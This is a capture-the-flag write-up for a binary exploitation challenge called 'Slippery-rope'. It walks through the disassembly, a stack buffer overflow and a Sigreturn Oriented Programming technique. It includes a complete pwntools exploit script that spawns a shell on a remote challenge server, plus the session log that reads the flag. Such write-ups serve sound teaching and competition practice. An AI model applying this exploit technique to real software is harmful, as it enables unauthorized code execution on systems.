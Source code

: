 # Slippery-rope

### Description
Challenge : [Slippery-rope](https://gofile.io/d/W0FlmR)<br>
Category  : Pwn (binary exploitation)<br>
Hint      : Sigreturn Oriented Programming<br>

```
$ ./slippery-rope
.---------------------[ Slippery Rope ]---------------------.
|   \\//                                             \\//   |
|    //                                               //    |
|   //\\                                             //\\   |
|   \\//         _ _                                 \\//   |
|    //      ___| (_)_ __  _ __   ___ _ __ _   _      //    |
|   //\\    / __| | | '_ \| '_ \ / _ \ '__| | | |    //\\   |
|   \\//    \__ \ | | |_) | |_) |  __/ |  | |_| |    \\//   |
|    //     |___/_|_| .__/| .__/ \___|_|   \__, |     //    |
|   //\\            |_|   |_|              |___/     //\\   |
|   \\//            _ __ ___  _ __   ___             \\//   |
|    //            | '__/ _ \| '_ \ / _ \             //    |
|   //\\           | | | (_) | |_) |  __/            //\\   |
|   \\//           |_|  \___/| .__/ \___|            \\//   |
|    //                      |_|                      //    |
|   //\\                                             //\\   |
|   \\//                                             \\//   |
|    //                                               //    |
|   //\\                                             //\\   |
'-------------------------[ by hfz ]------------------------'
Dude I can't climb, that rope is so slippery... what should I do?
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
I already tried to "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa", but it didn't work :/
Thanks anyways <:
```
This is a 64-bit stripped binary with only NX enabled, when executed, it takes some input and prints it back then exits<br>
### Static analysis
```
$ objdump -d -M intel ./slippery-rope 

./slippery-rope:     file format elf64-x86-64

Disassembly of section .text:

00000000004000f0 <.text>:
  4000f0:	b8 01 00 00 00       	mov    eax,0x1
  4000f5:	bf 01 00 00 00       	mov    edi,0x1
  4000fa:	48 be b8 01 60 00 00 	movabs rsi,0x6001b8
  400101:	00 00 00 
  400104:	ba d8 04 00 00       	mov    edx,0x4d8
  400109:	0f 05                	syscall 
  40010b:	e8 0a 00 00 00       	call   0x40011a
  400110:	48 31 ff             	xor    rdi,rdi
  400113:	b8 3c 00 00 00       	mov    eax,0x3c
  400118:	0f 05                	syscall 
  40011a:	55                   	push   rbp
  40011b:	48 89 e5             	mov    rbp,rsp
  40011e:	48 81 ec c8 00 00 00 	sub    rsp,0xc8
  400125:	b8 01 00 00 00       	mov    eax,0x1
  40012a:	bf 01 00 00 00       	mov    edi,0x1
  40012f:	48 be 91 06 60 00 00 	movabs rsi,0x600691
  400136:	00 00 00 
  400139:	ba 45 00 00 00       	mov    edx,0x45
  40013e:	0f 05                	syscall 
  400140:	48 31 c0             	xor    rax,rax
  400143:	48 31 ff             	xor    rdi,rdi
  400146:	48 89 e6             	mov    rsi,rsp
  400149:	ba 00 02 00 00       	mov    edx,0x200
  40014e:	0f 05                	syscall 
  400150:	80 7c 04 ff 0a       	cmp    BYTE PTR [rsp+rax*1-0x1],0xa
  400155:	75 08                	jne    0x40015f
  400157:	c6 44 04 ff 00       	mov    BYTE PTR [rsp+rax*1-0x1],0x0
  40015c:	48 ff c8             	dec    rax
  40015f:	b9 14 00 00 00       	mov    ecx,0x14
  400164:	48 bf b8 01 60 00 00 	movabs rdi,0x6001b8
  40016b:	00 00 00 
  40016e:	48 be d6 06 60 00 00 	movabs rsi,0x6006d6
  400175:	00 00 00 
  400178:	f3 a4                	rep movs BYTE PTR es:[rdi],BYTE PTR ds:[rsi]
  40017a:	48 89 c1             	mov    rcx,rax
  40017d:	48 89 e6             	mov    rsi,rsp
  400180:	f3 a4                	rep movs BYTE PTR es:[rdi],BYTE PTR ds:[rsi]
  400182:	b9 2c 00 00 00       	mov    ecx,0x2c
  400187:	48 be ea 06 60 00 00 	movabs rsi,0x6006ea
  40018e:	00 00 00 
  400191:	f3 a4                	rep movs BYTE PTR es:[rdi],BYTE PTR ds:[rsi]
  400193:	48 89 fa             	mov    rdx,rdi
  400196:	48 81 ea b8 01 60 00 	sub    rdx,0x6001b8
  40019d:	b8 01 00 00 00       	mov    eax,0x1
  4001a2:	bf 01 00 00 00       	mov    edi,0x1
  4001a7:	48 be b8 01 60 00 00 	movabs rsi,0x6001b8
  4001ae:	00 00 00 
  4001b1:	0f 05                	syscall 
  4001b3:	c9                   	leave  
  4001b4:	c3                   	ret    
  4001b5:	58                   	pop    rax
  4001b6:	c3                   	ret
```
After reading the assembly code We can notice 3 important things:<br>
1_ The buffer-overflow (the stack only allocates 200 bytes, but the read syscall reads 512 bytes)<br>
2_ No libc linked (the binary only uses syscalls, so we can't ret2libc)<br>
3_ There are only 2 gadgets, not enough for a ROPchain, but enough to get a shell!<br>

### Exploitation
As the hint suggests, the way to exploit this challenge is Sigreturn Oriented Programming,
the sigreturn syscall is used to restore registers' values previously saved on the stack, so we can
write the string '/bin/sh' to the stack and create a fake frame on the stack and call the sigreturn syscall
(using 'pop rax; ret;' and 'syscall' gadgets) which will set the required registers' values to execute 
an execve('/bin/sh', 0, 0) syscall and pop a shell!
```python
#!/usr/bin/env python2

from pwn import *

exe = ELF("./slippery-rope")
context.binary = exe

pop_rax_ret = 0x4001b5
syscall_ret = 0x4001b1

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("pwn.hfz-1337.ninja", 1337)


def main():
    r = conn()

    #fake frame to set the registers
    frame = SigreturnFrame()
    frame.rax = 59 # the execve syscall
    frame.rdi = 0x6001cc # the address of '/bin/sh\0'
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = syscall_ret

    payload = '/bin/bash\0'.ljust(208, 'a')
    payload += p64(pop_rax_ret)
    payload += p64(15) #the sigreturn syscall
    payload += p64(syscall_ret)
    payload += str(frame)

    r.recvuntil('> ')
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
```
### Flag
```
$ ./exploit.py 
[*] '/home/shell/Documents/shellmates/slippery-rope'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn.hfz-1337.ninja on port 1337: Done
[*] Switching to interactive mode
\x00I already tried to "/bin/bash\x00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xb5@\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00, but it didn't work :/
Thanks anyways <:
\x00
$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ ls
flag.txt
slippery_rope
$ cat flag.txt
shellmates{th4nKs_m8_n0w_1_c4n_cl1mb_th4T_r0p3_0f05}
Related research paper: https://www.cs.vu.nl/~herbertb/papers/srop_sp14.pdf
$ exit
```
